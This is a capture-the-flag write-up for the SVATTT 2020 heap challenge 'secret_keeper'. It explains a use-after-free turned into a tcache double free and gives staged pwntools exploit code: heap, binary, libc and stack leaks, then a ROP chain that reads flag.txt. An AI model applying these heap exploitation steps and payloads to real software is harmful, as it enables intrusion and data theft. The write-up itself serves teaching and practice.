# SVATTT 2020 - secret_keeper

You can download challenge file here: [secret_keeper.zip](secret_keeper.zip)

There will be several files in this zip:
- challenge/secret_keeper
- docker/share/ld-2.27.so
- docker/share/libc-2.27.so
- docker/share/run.sh
- docker/share/flag.txt
- docker/share/secret_keeper
- docker/xinetd
- docker/Dockerfile
- docker/docker-compose.yml

Download and unzip, then cd to folder docker and build the docker with command `docker-compose up --build`. The challenge provided will be in challenge folder and just contain 1 file `secret_keeper`.

# 1. Find bug

First, let's check the basic information of binary:

```bash
$ file secret_keeper
secret_keeper: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, not stripped

$ checksec secret_keeper
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So this is a 64-bit file without being stripped and all the defences are on except the RELRO. Next, we will use ida to decompile the challenge to get the flow. To get pseudocode in ida, click on the Toolbar tab `View -> Open subviews -> Generate pseudocode`.

In `main()`, it first init seccomp so we can get all allowed syscall number with `seccomp-tools`:


In other words, we cannot get shell and we can just get flag by opening flag, reading flag to buffer and printing the flag to us. The pseudocode of main is a bit long so I will just snipet some important parts.

Continue reading pseudocode, we can see there is a global variable called `gSecretList` and 2 other global variables which I will rename as following:



Next, we will go through every options. With the first option `create_secret()`, it will allocates a 0x50-byte chunk (included heap metadata) which might be a structure and can be illustrated as c code below:

```c
struct secret{
	long long int *secret_data;
	long long int secret_size;
	long long int secret_duplicate_number;
	long long int *secret_name;
	long long int *secret_encoder;
	long long int *secret_decoder;
	long long int *secret_retain;
	long long int *secret_release;
}
```

And the variable `secret_name` above can be a structure too and it can be shown as following:

```c
struct secret_name
{
	long long int *name;
	long long int size1;
	long long int size2;
}
```

The function `read_buf()` is safe and the name will be `strdup()` to move from stack to heap and it's safe too, so there are no heap overflow here.

Next is `edit_secret()`, it will `free()` the `secret_data` and `secret_name` and then malloc with a different size so there is nothing interesting here.

The option 3 and 4 are secured too so let's move to option 5 and 6.

In both option 5 and 6, we can see that there is a `free()` of a variable but it isn't removed after that --> **Use After Free**

And that's all we can find. Let's move on!

# 2. Idea

With bug **Use After Free**, we can use option 5 and 6 to first leak data if we chose encoder xor or hex and then free the `secret_data`. Remember that the data in `secret_data` will be changed before it is freed so if we've chosen option 5 or 6 and the `secret_data` has been freed, we can free that again.

I thought there were no double free with libc >= 2.31? Yeah that's true because of the tcache key. But if you can control a chunk after it is freed and remove the tcache key, you can free that chunk again --> **Double Free**

So with **Double Free**, we can free 1 chunk multiple time and when we malloc once, we can change the forward pointer of that chunk so that when we malloc next 2 chunk, we can control the address we want including reading data or writing data.

So idea is leak heap address first, then leak exe address because we're not provided a libc so we can just leak the libc address of a function, not address of main_arena. With exe address, we can leak the libc address of `printf()` or `free()` or whatever function you want.

And with the libc address, becase we cannot execute `execve`, we need to do a ROPchain or shellcode. Therefore,  we will need to leak the stack address to know where the saved rip of any function being saved and we can overwrite that saved rip with our payload.

Summary:
- Stage 1: Leak heap address
- Stage 2: Leak exe address
- Stage 3: Leak libc address
- Stage 4: Leak stack address
- Stage 5: Get shell

# 3. Exploit

Before we start our exploitation, I wrote these function to be convenient while we are exploiting:

<details>
<summary>Code snipet</summary>
<p>

```python
KEY = b'ASIS_CTF_THIS_IS_KEY'

def create(name=b'', size=0, secret=b'', encoder=0, useprev=0, number=0):
	p.sendlineafter(b'>> ', b'1')
	if useprev!=9999:
		p.sendlineafter(b'secret?(0/1)', str(useprev).encode(), timeout=1)
		if useprev:
			p.sendlineafter(b'>> ', str(number).encode())
		else:
			p.sendlineafter(b'Name: ', name)
			p.sendlineafter(b'Secret size:', f'{size}'.encode())
			p.sendline(secret)
			p.sendlineafter(b'3. None', f'{encoder}'.encode())
	else:
		p.sendlineafter(b'Name: ', name)
		p.sendlineafter(b'Secret size:', f'{size}'.encode())
		p.sendline(secret)
		p.sendlineafter(b'3. None', f'{encoder}'.encode())

def edit(number, name, size, secret, encoder):
	p.sendlineafter(b'>> ', b'2')
	p.sendlineafter(b'>> ', str(number).encode())
	p.sendlineafter(b'Name:', name)
	p.sendlineafter(b'Secret size: ', f'{size}'.encode())
	p.sendline(secret)
	p.sendlineafter(b'3. None', f'{encoder}'.encode())

def show(number, hdump=True):
	p.sendlineafter(b'>> ', b'3')
	p.sendlineafter(b'>> ', str(number).encode())
	if hdump:
		return hexdump()

def delete(number):
	p.sendlineafter(b'>> ', b'4')
	p.sendlineafter(b'>> ', str(number).encode())

def enc(number, hdump=True):
	p.sendlineafter(b'>> ', b'5')
	p.sendlineafter(b'>> ', str(number).encode())
	if hdump:
		return hexdump()

def dec(number, hdump=True):
	p.sendlineafter(b'>> ', b'6')
	p.sendlineafter(b'>> ', str(number).encode())
	if hdump:
		return hexdump()

def hexdump():
	from binascii import unhexlify
	
	data = b''
	done = 0
	p.recvuntil(b'secret:\n')
	while not done:
		c = 1
		for i in range(0x10):
			if c%8==0:
				output = p.recvuntil(b'  ', drop=True)
			else:
				output = p.recvuntil(b' ', drop=True)
			# print(output)
			if not output:
				done = 1
			try:
				data += unhexlify(output)
			except binascii.Error:
				return data
			c+=1
		p.recvline()
	return data

def xor(a, key):
	a = list(a)
	key = list(key)
	result = b''
	for i in range(len(a)):
		result += p8(a[i%len(a)] ^ key[i%len(key)])
	return result
```

</p>
</details>

And now, let's start!

> P/s: The whole code below are the code when I have the libc and patched already.

### Stage 1: Leak heap address

As I said, with option 5 and 6, we can leak data and free a chunk without being removed from struct secret. So the code for leaking heap address can be as following:

```python
create(b'A'*8, 0x48, b'A'*0x47, 1, useprev=9999)
dec(1)
dec(1)        # Double free
heap_leak = u64(xor(dec(1), KEY)[:8])
log.info("Heap leak: " + hex(heap_leak))
heap_base = heap_leak - 0x3140
log.info("Heap base: " + hex(heap_base))
```

Executing script and we get the heap leak:



Do you notice the size that I used to malloc a chunk for `secret_name`? It is because that size `0x48` (malloc will return a 0x50-byte chunk) is equal to the size of struct secret (a 0x50-byte chunk too).

### Stage 2: Leak exe address

So the next time we create secret, that chunk will be used and we can read all data from that chunk (for example above, the chunk leaked is at `0x55557fa40140` so the next time we create secret, we will have a chunk at `0x55557fa40140` to contain secret structure and a chunk at `0x55557fa40140` to contain `secret_data`).

Hence, if we input just `\n`, nothing of secret structure will be modify and we can print all address in that structure to us including address of `secret_retain` and `secret_release`. The code for this stage will be:

```python
create(b'B'*8, 0x428, b'B'*0x427, 1, useprev=0)
exe_leak = u64(show(1)[0x30:0x38])
log.info("Exe leak: " + hex(exe_leak))
exe.address = exe_leak - exe.sym['secret_retain']
log.info("Exe base: " + hex(exe.address))
```

We `show(1)` because the first chunk already has the address `secret_data` which point to the second chunk. Executing script and we have the address of exe leaked:



### Stage 3: Leak libc address

To leak the address of libc, I will try to leak the address of printf. After 2 stage above, we now have just 2 freed 0x50-byte chunks:



We will want to delete the second secret to have 3 freed 0x50-byte chunks to make sure so that we can overwrite the forward pointer get the printf address leaked:

```python
delete(2)
payload = flat(
	exe.got['printf'], 0x100,
	1
	)
create(b'C'*8, 0x48, payload, 1, useprev=0)
printf_addr = u64(show(2)[:8])
log.info("Printf address: " + hex(printf_addr))
```

Connect to docker and we can get the printf address leaked:



Take that leaked address and go to https://libc.blukat.me/ to get the libc:



So the libc we want is `libc6_2.27-3ubuntu1_amd64`. Let's take that and get the libc base address

```python
libc.address = printf_addr - libc.sym['printf']
log.info("Libc base: " + hex(libc.address))
```

### Stage 4: Leak stack address

Now, we will want to control the saved rip of some function, and the best place is saved rip of `create_secret` because we can write our payload to that saved rip and when it return, it will execute our payload immediately.

We will not delete or decode anymore because it will cause segfault, instead we will use `edit_secret` to free just the `secret_data` and `secret_name`, that re-malloc with the same chunk to write the libc address of environ to the `secret_data` and we can leak it easily:

```python
payload = flat(
	libc.sym['environ']
	)
edit(1, b'D'*8, 0x48, payload, 1)
leak_stack = u64(show(2)[:8])
log.info("Stack leak: " + hex(leak_stack))
saved_rip = leak_stack - 0x1d0
log.info("Saved rip of create_secret(): " + hex(saved_rip))
```

The reason why I edit secret 1 is because secret 1 has `secret_data` is the pointer point to secret 2 so we can change the `secret_data` of secret 2 into environ and get the address of stack:



### Stage 5: Get shell

Now, we will want to control the saved rip of `create_secret`, we will need a bigger chunk to put our ROPchain into it. We will do as stage 1 to get a chunk to be freed multiple time with size of `0x410` (included heap metadata and it will be added to tcache, not unsorted bin):

```python
create(b'E'*8, 0x408, flat(saved_rip), 1, useprev=0)
dec(3)
dec(3)
dec(3)
dec(3)
dec(3)
dec(3)
dec(3)
```

Attach with gdb-gef and we can check the bin:



After we have 7 freed chunk, we will try to create secret with the same size and overwrite the forward pointer so that the tcache will misunderstand and will create a chunk at that overwrited address for us:

```python
create(b'F'*8, 0x408, flat(saved_rip), 1, useprev=0)
```

Attach with gdb-gef and we can see the next chunk in bin changed:



So we will need to malloc 2 more times and the second time will be the address of saved rip of `create_secret`. Let's try to see:

```python
create(b'G'*8, 0x408, b'G', 1, useprev=0)
create(b'F'*8, 0x408, cyclic(0x400), 1, useprev=0)
```

Attach with gdb-gef and we can see we will get a segfault:



Tada! We can control rip now. Let's make our ROPchain and get the flag:

```python
pop_rax = libc.address + 0x00000000000439c8
pop_rdi = libc.address + 0x000000000002155f
pop_rsi = libc.address + 0x0000000000023e6a
pop_rdx = libc.address + 0x0000000000001b96
syscall = libc.address + 0x00000000000d2975
payload = flat(
	# Open flag.txt
	pop_rax, 2,
	pop_rdi, leak_stack - 0x138,
	pop_rsi, 0,
	pop_rdx, 0,
	syscall,

	# pop_rax, 0,
	pop_rdi, 3,
	pop_rsi, leak_stack - 0x1000,
	pop_rdx, 0x100,
	libc.sym['read'],

	pop_rdi, 1,
	libc.sym['write'],
	b'flag.txt', 0
	)
create(b'G'*8, 0x408, b'G', 1, useprev=0)
create(b'F'*8, 0x408, payload, 1, useprev=0)
```

Execute the code and we will get the flag.

Full script: [solve.py](solve.py)

# 4. Get flag

The flag I created just for fun.



Flag is `JHT{1s_h34P_d1ffICult?_397de053ee33a22524a802a2336c8dbb}`